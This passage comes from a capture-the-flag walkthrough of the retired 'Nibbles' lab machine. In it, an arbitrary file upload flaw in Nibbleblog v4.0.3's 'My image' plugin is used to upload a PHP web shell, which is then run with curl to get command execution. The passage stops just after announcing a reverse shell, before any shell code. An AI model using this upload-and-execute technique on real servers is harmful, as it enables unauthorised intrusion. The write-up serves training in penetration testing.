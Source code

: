 Looking at the portal, we find six main sections:

- Publish
- Comments
- Manage
- Settings
- Themes
- Plugins

Publishing a new page doesn't appear to offer a means of ingress; neither does the Comments
 section. Manage, Settings, and Themes appear less than useful to us as well. The Plugins
 section shows promise, however: the blog is running a plugin called `My image` which allows
 for uploading files.

![nibbleblog plugins tab](nibbles-plugins.png)

If we look at our earlier findings we'll recall that there was a
 confimed exploit for nibbleblog v4.0.3 that allowed for arbitrary file uploads. This could very
 well be our way in!

### Testing Potential Exploits

Before we get too ahead of ourselves, we should confirm that this will work. To do that, we
 create a `PHP` script to upload through the image plugin:

```php
<?php system('id'); ?>
```
{: .nolineno file="image.php" }

We upload this using the plugin:

![nibbles My image plugin](nibbles-my-image.png)

We see a number of errors in the upper-right side of the browser tab, but it otherwise reports
 success! To confirm this, we navigate to the `/content` directory we explored earlier and find
 the `plugins` directory. Here, we see the directory `my_image`, in which we find `image.php`.
 Success! We know that it's ours not just from the filename but from the modified date matching
 the current date. All that's left is to test its execution:

```terminal
┌──(zero㉿kali)-[~]
└─$ curl http://10.129.133.238/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

Fantastic; the response is the code we scripted! Based on the response, it appears that the
 Apache web server is running under the `nibbler` user on the target machine.

### Gaining A Foothold
Since we've aleady investigated the rest of the admin portal, it's time we attempt to get a
 foothold on the target. We modify our `image.php` script to provide us with a reverse shell
 using a nice bit of script found on the [HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/#:~:text=0/tmp/p-,A%20reverse%20shell,-submitted%20by%20%400xatul) reverse shell resource page:


[^nibbles]: Nibbles is a retired machine, which means it has publicly available walkthroughs
[^wsl2]: Open a Powershell window (running as admin) and create a port proxy
[^habits]: There are some red team exercises where you want to gain access as quickly as
[^bak]: Notice that the first command here creates a backup of the `monitor.sh` script. We
[^sudo]: Notice that we have to specify the full path. When trying to use the relative path,